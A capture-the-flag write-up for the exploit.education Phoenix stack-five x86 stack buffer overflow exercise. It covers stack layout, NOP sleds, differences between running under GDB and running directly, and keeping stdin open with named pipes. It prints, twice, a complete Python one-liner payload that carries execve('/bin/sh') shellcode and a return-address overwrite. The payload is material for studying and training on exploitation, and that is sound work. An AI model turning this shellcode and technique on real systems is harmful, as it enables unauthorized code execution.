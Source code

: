 # https://exploit.education/phoenix/stack-five/ (x86)

### This challenge is relatively straightforward, you need to place a shell code into stack and make sure return address points to the beginning. 
### Nevertheless, when you encounter something similar for the first time, you can waste a lot of time on some of the following caveats:
* First thing to keep in mind, compiler may decide to reserve more space on the stack than the size of variables / arrays in the function. Use debugger to find out the stack layout for your architecture
* Even with ASLR disabled the exact address of stack in your function can be different depending on the environment (more on this further). It is a good practice to use [Nop Sleds](https://en.wikipedia.org/wiki/Buffer_overflow#NOP_sled_technique) (unless IDPS is in place that searches for this pattern)
* There are different ways to print raw binary data, but most of them are either limited or unreliable. Consider these examples :
    * **echo -n -e "\x90\x90"**  - this is good, but limited, you have to type your whole exploit manually as it is
    * **python -c "print('A'*32 + '\xde\xad')"*** - the problem with this is the added **NL** char. 
    * **print('\90'*32, end='')*** - this solves the previous issue, but apparently python's *print* still does not work properly with binary data > 0x7F (just try the above example yourself and see what happens)

    The most reliable and relatively simple way to print binary data with python I found is this :
    ```console
    python3 -c "import sys; sys.stdout.buffer.write (b'\x90' * 0x60 + b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80' + b'\x90' * 0x15 + b'\xd0\xd6\xff\xff')"
    ```
* There can be a very annoying small difference between stack address when debugging inside GDB vs running the executable. You will first encounter this when your exploit will be working perfectly inside GDB, but will crash the exe when run directly. The reason for this is that the exact stack address inside your function of interest depends heavily on the enviromnent where exe runs - mostly on the exact set of the environment variables and arguments (including arg0 which can be full path to executable and can be relative). All of the above resides on stack and thus the exact address range used by the stack of the exploited function moves. In order to increase the chances of having the perfect match between GDB and direct execution you need to :
    * Always run the executable with the full path 
    * Undefine ```LINES``` and ```COLUMNS``` environment variables inside GDB
    * More info [here](https://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code)
* You finally saw with your own bare eyes that ```/bin/sh``` is getting executed inside GDB, but when your run the exe directly .... nothing happens, there is no crash (if you sorted out the previous issue correctly), but there is no *bash* spawned either. In this particular exercise the exploit is triggered by the input received from stdin. The catch is that the *bash* **is** spawned, but it is closed immediately because ```EOL``` is reached in your input. In order to prevent this and see your exploit working, you need to prevent the input pipe from being closed. One of the ways to achieve this is by using pipes :
```console 
   # Create a named pipe : 
    mkfifo my_fifo

   # in the same console open a cat process that will allow you to write to it 
   # and keep it open:
   cat > my_fifo
```

``` console
   # open another console and redirect contents of your pipe to exe:
   cat my_fifo | /opt/phoenix/i486/stack-five
```

```console
   # open yet another console and redirect your exploit to the pipe there
   echo "your cool exploit" > my_fifo
```

``` console
   # go back to the first console and type shell commands there
   # you will see the output in the second console where your exe runs:

   ls # for some reason the first command does not work 
   ls
     
   cat my_fifo | /opt/phoenix/i486/stack-five
   Welcome to phoenix/stack-five, brought to you by https://exploit.education
   a.out    bin2shell.sh  stack-six   syscall.S  syscall32.S

```

## Finally, The solution to the above exercise (fox x86) :

```console
python3 -c "import sys; sys.stdout.buffer.write (b'\x90' * 0x60 + b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80' + b'\x90' * 0x15 + b'\xd0\xd6\xff\xff')"
```
1. A series of NOPS
2. execve shellcode 
3. some more NOPS
4. Return address overwrite - should point somewere in between the first 60 NOPS
